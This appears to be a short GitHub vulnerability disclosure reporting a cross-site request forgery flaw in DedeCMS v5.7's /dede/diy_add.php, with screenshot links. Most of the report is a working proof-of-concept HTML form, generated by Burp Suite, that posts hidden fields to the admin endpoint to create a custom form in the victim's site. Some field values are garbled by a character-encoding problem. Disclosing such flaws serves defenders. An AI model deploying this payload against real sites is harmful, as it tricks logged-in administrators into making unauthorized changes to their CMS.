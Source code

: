 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /dede/diy_add.php
![1](https://github.com/777erp/cms/assets/113673221/34475c55-bb66-4f16-b6eb-aa537f3f9180)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/diy_add.php?action=add" method="POST">
      <input type="hidden" name="diyid" value="1" />
      <input type="hidden" name="name" value="�&#135;&#174;&#154;�&#185;&#137;�&#161;&#168;�&#141;&#149;1" />
      <input type="hidden" name="table" value="dede&#95;diyform1" />
      <input type="hidden" name="listtemplate" value="list&#95;diyform1&#46;htm" />
      <input type="hidden" name="viewtemplate" value="view&#95;diyform1&#46;htm" />
      <input type="hidden" name="posttemplate" value="post&#95;diyform1&#46;htm" />
      <input type="hidden" name="public" value="1" />
      <input type="hidden" name="button" value="�&#161;&#174;�&#174;&#154;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

![2](https://github.com/777erp/cms/assets/113673221/05c20fa2-6c8e-4282-a713-ba1084d9237b)


Successed

![3](https://github.com/777erp/cms/assets/113673221/342ef1e2-2c20-4832-8fed-d7025354af37)

